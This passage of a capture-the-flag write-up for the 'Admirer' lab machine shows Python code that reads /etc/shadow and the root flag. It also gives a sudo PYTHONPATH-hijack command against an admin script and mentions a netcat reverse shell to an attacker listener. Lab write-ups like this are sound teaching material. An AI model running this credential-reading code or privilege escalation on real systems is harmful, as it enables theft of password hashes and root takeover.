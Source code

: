     shadow = "/etc/shadow"                           
    flag = "/root/root.txt"                          
    store = "/tmp/store.txt"                             
                                              
    with open(shadow, 'r') as f:                     
        shadow_con = f.read()                        
    print(shadow_con)                                                                        
    with open(flag, 'r') as g:                       
        flag_con = g.read()                          
    print(flag_con)


    with open(store, 'a') as s:
        s.write(flag_con)
        s.write(shadow_con)
    print("done")
```

Note: I chose to use filenames that would be deleted by the cron job running every 3 minutes, in order to not leave spoilers on the machine.

sudo PYTHONPATH=/home/waldo /opt/scripts/admin_tasks.sh 6


This seems to work, however, there ismore fun when you get shell on the box as root and not just reading the flag. 
One could also try passowrd cracking, however, that would eventually take longer than getting a reverse shell.

using python os.system command we can invoke a netcat connection to a listener of our attacker machine and get root shell.


![shutil_shell](/images/admirer/shutil_shell.png)

You can now read the root flag at /root/root.txt
